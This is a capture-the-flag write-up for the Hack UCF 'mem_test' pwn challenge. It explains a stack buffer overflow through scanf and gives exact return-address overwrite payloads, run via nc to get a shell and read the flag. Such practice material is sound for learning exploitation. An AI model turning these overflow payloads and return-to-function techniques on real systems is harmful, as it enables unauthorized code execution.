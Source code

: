 # mem_test
**Category:** Pwn

**Points:** 75

**Description:**
Author: kablaa

nc ctf.hackucf.org 9004

> **Files:** mem_test, mem_test.c, libpwnableharness32.so

## Write-up
When run, the program prints a header, then a random string, and then asks to see how good your memory is. If you enter the random string, it prints 'good job!!':
```
> nc ctf.hackucf.org 9004



------Test Your Memory!-------

YiUqxvyNCc
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> YiUqxvyNCc
good job!!


```
If you don't enter the string correctly, you get the 'sorry, your memory sucks' message:
```
nc ctf.hackucf.org 9004



------Test Your Memory!-------

zhULSZ2STl
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> hello
sorry, your memory sucks

```
C code was provided. In it there was a `handle_connection()` function, so I started there:
```c
void handle_connection(int sock) {
	int len = 10;
	char random[11];
	int i;
	static const char alphanum[] =
		"0123456789"
		"ABCDEFGHIJKLMNOPQRSTUVWXYZ"
		"abcdefghijklmnopqrstuvwxyz";
	
	
	puts("\n\n\n------Test Your Memory!-------\n");
	
	srand(time(NULL));
	
	for(i = 0; i < len; ++i) {
		random[i] = alphanum[rand() % (sizeof(alphanum) - 1)];
	}
	
	printf("%s", random);
	mem_test(random);
}
```
This function creates the random string to test the user with, prints it out, and passes it to the `mem_test()` function, so we can take a look at that:
```c
const char* hint = "/bin/sh";

void mem_test(char* p) {
	char buff[11];
	memset(buff, '\0', sizeof(buff));
	
	printf("\nI know that mine is fine...see? : ");
	printf("%p \n", hint);
	
	puts("Let's see how good your memory is...\n");
	printf("> ");
	scanf("%s", buff);
	
	if(strncmp(buff, p, sizeof(p)) != 0) {
		puts("sorry, your memory sucks\n");
	}
	else {
		puts("good job!!\n");
	}
}
```
Note that there is a global variable `hint` that is used by the `mem_test()` function, and this contains `/bin/sh`. Interesting.

Looking at the `mem_test()` function, it creates a `char` array (`buff`) of 11 bytes and sets them all to zero. We can now see that the address printed out after the 'mine is fine' message is the address of the `hint` variable.

It then prints out the messages and uses `scanf()` to get the user input and puts it in `buff`. This means we can overflow `buff` if we need to, as `scanf()` does no checking on the length of the input. We can see that `buff` is then compared to the original random string and an appropriate message printed.

In the code, there is one more function - `win_func()`:
```c
void win_func(char* y) {
	system(y);
}
```
This function takes a string and runs whatever is in that parameter. It looks like we need to call this function and pass it the address of the `hint` variable.

The only way I can see to call this function would be to overwrite the return address for the `mem_test()` function so it calls `win_func()` instead of returning to `handle_connection()`. To see how this can be done I ran the code in IDA, initially passing in 10 A characters so we can see the stack layout:
```
> python -c "print('A'*10)" > input.txt
```
We can now use `input.txt` to get the input into IDA.

If we look at the disassembly of part of the `handle_connection()` function, we can see that `mem_test()` is called at 0x0804885b:

![Call to mem_test()](mem_test_call.png)

This means the return address we are looking for on the stack is 0x08048860. Let's look at the stack just before the `scanf()` call:

![Stack with return address](return_address.png)

We can see the return address on the stack at 0xff843a3c. Now lets step over the `scanf()` and we'll see where our input goes:

![Stack with input](input_stack.png)

The input is placed on the stack at 0xff843a25 (I've missed highlighting a few in the image). There are our 10 A characters and the null terminator. To affect the return address, we're going to have to add another 13 A characters (to eat up the null terminator and then 12 bytes on the next line), and then put the address we want to jump to. Looking at the code, the function we want to call is at 0x08048866:

![Win_func() location](win_func_location.png)

So now we can change our `input.txt` file to try to change the return address and jump into the `win_func()` function:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08')" > input.txt

This time, we can see the original return address at 0xffa3ac4c:

![Stack with return address](return_address2.png)

Once we write our input to the stack the return address has changed to the `win_func()` location:

![Stack with win_func address](stack_with_win_func.png)

When stepping on through the code, this does get us into the `win_func()` function! Now we need to work out how to pass the address of `hint` to this function call.

The stack for a `call` is organised as follows:
|Stack frame |
|------------|
|Address of function to call   |
|Return address after call|
|Argument1|
|Argument2|

So we need to set up the stack like that for our call to `win_func()`. We can set the return address to the original return address we've overwritten, and the argument can be the address of `hint`. Therefore our stack should be:
| Stack frame | Description |
|-------------|-------------|
|AAAAAAAA...| Overflowed buffer|
|0x08048866 | Overwritten return address - now points to `win_func()`|
|0x08048860 | Original return address set as return address for our call|
|0x08048980 | Address of `hint`|

Therefore, we now set up our `input.txt` file to be:
```
> python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" > input.txt

> Note also: Even though I set the stack so that the old return address was set as the return address for our call, the program will still segment as the stack  won't be set up completely correctly

I tested our final payload in IDA. The final stack looked correct - after the A characters was the address of the `win_func()`, followed by the address to return to in `handle_connection()`, and then the address of the `hint` variable:

![Final stack](final_stack.png)

Lets try this on the server now:
```
> (python -c "print('A'*23 + '\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004



------Test Your Memory!-------

uYPRJUjxBq
I know that mine is fine...see? : 0x8048980 
Let's see how good your memory is...

> sorry, your memory sucks

ls
flag.txt
mem_test
cat flag.txt
flag{<flag was here>}
^C
```
> Note: The above works in Python2. As Python3 uses Unicode for the basic string, and print() expects Unicode, for Python3 use: (python3 -c "import sys; sys.stdout.buffer.write(b'A'*23 + b'\x66\x88\x04\x08\x60\x88\x04\x08\x80\x89\x04\x08')" ; cat) | nc ctf.hackucf.org 9004

> Note also: We need to use `(python ... ; cat)` otherwise you don't get chance to interact with the shell before the program segments

This worked and gave me the flag.





